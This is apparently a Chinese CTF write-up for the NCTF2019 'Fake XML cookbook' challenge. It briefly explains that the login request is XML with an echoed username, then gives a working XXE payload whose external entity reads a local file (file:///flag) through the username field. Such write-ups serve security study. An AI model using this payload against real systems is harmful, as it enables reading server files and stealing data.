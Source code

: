# \[NCTF2019]Fake XML cookbook

## \[NCTF2019]Fake XML cookbook

## 考点

* XXE

## wp

打开就是登录界面，抓包，是XML

![](<../.gitbook/assets/image (34) (1) (1) (1) (1).png>)

会回显username，直接进行XXE注入

```xml
<!DOCTYPE ANY [
    <!ENTITY test SYSTEM "file:///flag">
]>
<user><username>&test;</username><password>123</password></user>
```

![](<../.gitbook/assets/image (27) (1) (1).png>)
